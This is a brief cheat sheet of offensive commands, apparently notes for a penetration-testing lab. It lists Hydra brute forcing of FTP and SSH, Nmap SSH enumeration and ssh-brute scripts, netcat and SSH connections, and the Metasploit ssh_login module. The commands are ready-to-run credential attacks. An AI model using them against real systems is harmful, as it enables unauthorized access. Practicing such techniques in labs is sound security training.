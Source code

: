 **Hydra**

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <TARGET_IP> -t 4 ftp
```

**SSH**



**Nmap**

```
# NMAP
sudo nmap -p 22 -sV -sC -O <TARGET_IP>

nmap -p 22 --script ssh2-enum-algos <TARGET_IP>
nmap -p 22 --script ssh-hostkey --script-args ssh_hostkey=full <TARGET_IP>
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=<USER>" <TARGET_IP>

nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=<USER>, ssh-run.password=<PW>" <TARGET_IP>

nmap -p 22 --script=ssh-brute --script-args userdb=<USERS_LIST> <TARGET_IP>
```

**Netcat**

```
# NETCAT
nc <TARGET_IP> <TARGET_PORT>
nc <TARGET_IP> 22
```

**SSH**

```
ssh <USER>@<TARGET_IP> 22
ssh root@<TARGET_IP> 22
```

**Hydra**

```
hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> ssh
```

**Metasploit**

```
use auxiliary/scanner/ssh/ssh_login

set RHOSTS <TARGET_IP>
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```
